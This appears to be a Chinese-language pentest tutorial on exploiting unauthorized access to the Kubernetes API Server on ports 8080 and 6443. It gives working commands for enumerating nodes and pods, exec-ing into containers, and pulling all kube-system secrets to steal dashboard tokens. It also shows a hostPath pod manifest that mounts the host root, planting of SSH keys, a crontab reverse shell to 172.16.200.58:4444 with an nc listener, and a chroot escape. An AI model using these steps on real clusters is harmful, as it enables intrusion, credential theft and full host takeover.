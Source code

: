 # K8s API Server未授权命令执行

## 漏洞描述

Kubernetes是一个可以移植、可扩展的开源平台，使用 声明式的配置 并依据配置信息自动地执行容器化应用程序的管理。在所有的容器编排工具中（类似的还有 docker swarm / mesos等），Kubernetes的生态系统更大、增长更快，有更多的支持、服务和工具可供用户选择。

K8s 的API Server默认服务端口为8080(insecure-port)和6443(secure-port)，8080端口提供HTTP服务，没有认证授权机制，而6443端口提供HTTPS服务，支持认证(使用令牌或客户端证书进行认证)和授权服务。默认情况下8080端口不启动，而6443端口启动。这两个端口的开放取决于/etc/kubernetes/manifests/kube-apiserver.yaml配置文件。

如果目标K8s的8080端口开启了，由于其没有认证授权机制，因此存在未授权访问。

如果目标K8s的6443端口开启了，如果配置错误，也可以导致存在未授权访问。

## 漏洞复现

### 8080端口

默认情况下，8080端口关闭的，手动开启：

```
cd /etc/kubernetes/manifests
vim kube-apiserver.yaml
```

高版本的k8s中，将--insecure-port这个配置删除了，因此添加如下两行：

```

- --insecure-port=8080
- --insecure-bind-address=0.0.0.0
```

![image-20230215102911534](images/image-20230215102911534.png)

重启k8s：

```
systemctl restart kubectl
```

访问8080端口即可看到存在未授权：

![image-20230215110103802](images/image-20230215110103802.png)

也可以使用kubectl远程连接获得信息：

```
kubectl -s http://your-vps-ip:8080 get nodes
```

注：在高版本（1.20及其以后）的K8s中直接禁用了该端口，并且无法打开。

### 6443端口

如果运维人员配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，则会使得6443端口允许匿名用户以管理员权限访问。

正常情况下访问6443端口，提示Forbidden。

![image-20230215110607076](images/image-20230215110607076.png)

执行如下命令将"system:anonymous"用户绑定到"cluster-admin"用户组：

```
kubectl create clusterrolebinding cluster-system-anonymous --clusterrole=cluster-admin --user=system:anonymous
```

再次访问访问6443端口，即可未授权访问。

## 漏洞利用

### 命令执行

#### 查看k8s集群信息

```
kubectl -s http://your-vps-ip:8080 cluster-info
```

#### 查看node节点信息

```
#查看node节点
kubectl -s http://your-vps-ip:8080 get nodes

#查看node节点详细信息
kubectl -s http://your-vps-ip:8080 get nodes -o wide
```

#### 查看pod节点信息

```
#查看所有的pod
kubectl -s http://your-vps-ip:8080 get pods -A
```

#### 执行其他命令

通过获取到的pods节点信息，进入对应docker 命令执行。-n对应的是NAMESPACE，-it 对应的是NAME：

```
#进入命名空间为default，名字为hello-minikube的容器
kubectl -s http://your-vps-ip:8080 exec -n default -it hello-minikube -- /bin/bash

#进入命名空间为kube-system，名字为etcd-ubuntu的容器
kubectl -s http://your-vps-ip:8080 exec -n kube-system -it etcd-ubuntu -- /bin/sh
```

### 获取Token登录dashboard

访问如下接口，即可看到K8s所有的Token，我们过滤找到dashboard-admin相关的Token。

```
http://your-vps-ip:8080/api/v1/namespaces/kube-system/secrets/

https://your-vps-ip:6443/api/v1/namespaces/kube-system/secrets/
```

然后对其base64解码一次，即可使用base64解码后的Token登录K8s的dashboard。

### 获取宿主机权限

#### 创建pod

通过k8s dashboard，创建特权Pods来获得宿主机权限。登录dashboard后台后，点击右上角+号，然后输入如下命JSON内容，创建名为myapp的pod，并且将宿主机的目录挂在到了/mnt目录下：

```
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test
  volumes:
  - name: test
    hostPath:
      path: /
```

点击工作负载→Pods，可以看到刚才创建的pod。

点击myapp名称。点击右上角进入Shell窗口。

#### 写入ssh公钥

切换到/mnt/root/.ssh目录下，写入公钥文件，即可免密登录宿主机。

#### 定时任务反弹shell

也可以往宿主机写入crontab来反弹获取shell，执行如下命令，将反弹shell的命令写入/var/spool/cron/root文件中：

```
echo "*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/172.16.200.58/4444 0>&1" > root
```

nc监听接收反弹shell：

```
$ nc -lvp 4444
```

#### chroot逃逸

```
chroot /mnt
```

